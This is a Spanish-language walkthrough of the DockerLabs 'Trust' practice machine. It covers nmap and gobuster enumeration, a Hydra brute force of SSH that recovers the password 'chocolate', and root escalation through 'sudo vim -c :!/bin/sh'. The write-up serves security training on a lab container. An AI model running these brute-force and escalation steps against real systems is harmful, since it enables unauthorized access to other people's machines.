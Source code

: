```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "ataque de fuerza bruta"
date: 2024-05-17
classes: wide
header:
  teaser: /assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
---
```


<p align="center">
  <img width="460" height="300" src="/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta.

# Herramientas

    nmap
    hydra

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que se encuentran 2 puertos abiertos 22 que corresponde al servicio de SSH y el puerto 80 al servicio web Apache

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 12:22 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

Procedo a investigar el puerto 80 en el navegador ingreso la siguiente URL `http://172.17.0.2` en el cual está la pagina de por default del servicio Apache

![[000trust.png]](/assets/images/writetup/dockerlabs/trust/000trust.png)

La pagina no tiene nada mas interesante, por lo tanto procedo a realizar fuzzing web a ver si me encuentro con algo mas

```bash
gobuster dir -n 404 -t 64 -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x txt,py,sh,php
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

Finalizado el fuzzing se observa que hay un directorio secret.php

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,py,sh,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1038215 / 1038220 (100.00%)
===============================================================
Finished
===============================================================
```

procedo a ver que hay en ese directorio ingresando la siguiente url en el navegador `http://172.17.0.2/secret.php`

![]/assets/images/writetup/dockerlabs/trust/002trust.png

Me encuentro con el siguiente mensaje "Hola Mario, Esta web no se puede hackear." no me encuentro con nada mas en esta web, por lo tanto tengo un posible usuario llamado Mario, el cual voy a usar para hacer fuerza bruta al servicio SSH con la herramienta Hydra

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                               |
| --------- | ----------------------------------------- |
| -l        | usario                                    |
| -P        | carga varias contraseñas desde un ARCHIVO |
| -t        | cantidad de hilos en paralelo             |
| ssh       | protocolo a atacar                        |

El ataque de fuerza bruta confirma el usuario mario y muestra la contraseña chocolate

```css
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 12:48:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 12:48:54
```

con estos datos procedo a realizar la intrusión en el equipo mediante el servicio SSH

# 2- Intrusión

Conexión a la maquina victima por el servicio SSH

```bash
ssh mario@172.17.0.2
```

al solicitar la contraseña ingreso `chocolate` y me permite el acceso a la maquina victima con el usuario mario intrusión realizada

![]/assets/images/writetup/dockerlabs/trust/003trust.png

# 3- Escalada de privilegios

Llego de momento de escalar privilegios y ser el usuario root, para ello voy a ejeutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![]/assets/images/writetup/dockerlabs/trust/004trust.png

Se observa que se puede ejecutar el binario `/usr/bin/vim` como el usuario **root**. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

ejecutando el siguiente comando vamos a tener acceso a root

```bash
sudo vim -c ':!/bin/sh'
```

Listo! se logró escalar privilegios a al usuario root

![]/assets/images/writetup/dockerlabs/trust/005trust.png
